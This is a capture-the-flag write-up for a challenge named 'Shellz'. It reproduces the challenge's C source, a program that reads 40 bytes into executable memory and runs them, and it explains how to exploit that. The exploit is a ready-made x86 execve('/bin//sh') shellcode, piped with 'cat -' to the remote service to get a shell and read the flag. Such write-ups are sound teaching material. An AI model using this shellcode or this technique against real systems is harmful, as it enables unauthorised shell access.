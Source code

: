 # Shellz

We are given this challenge:

![image](https://user-images.githubusercontent.com/24576987/33190548-dbfb8a04-d07b-11e7-8397-761192374564.png)

Connecting to the challenge gives us something like this:

![image](https://user-images.githubusercontent.com/24576987/33190564-f0bcc098-d07b-11e7-991d-878e8ea29fe4.png)

If we look at the source code, we can also see what's up:

```

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 40

//Learned my lesson! No more easy flags
/*void win(){
    system("/bin/cat ./flag.txt");    
}*/


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
```

From this source code, we can see that there are a few interesting lines to interpret:

```
    void (*func)() = (void (*)())stuff;
    func();      
```

This is essentially creating a function pointer that points to stuff, which is a memory mapped area that was modified by the `read()` function. `func()` is then called on, suggesting that the `eip` will now point to whatever is in `stuff`.

This is strongly implying that we need to use shellcode in whatever `stuff` is. There are lots of free shellcode online, but we will use this one I found from a simple google search:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Let's try injecting this into the remote server:

![image](https://user-images.githubusercontent.com/24576987/33190624-a27783b8-d07c-11e7-9956-ad94aa661196.png)

Hey, what gives? There was no segmentation fault, but we weren't given access to the shell? Well, it turns out that the code was properly executed, but we needed some way to return the results of our input into the server. One thing we could have done was to place `cat -` after our payload, which would read from our `stdin`. Let's do that:

![image](https://user-images.githubusercontent.com/24576987/33190644-daf8f618-d07c-11e7-963e-5e772915733f.png)

And there is our answer! We have the flag!
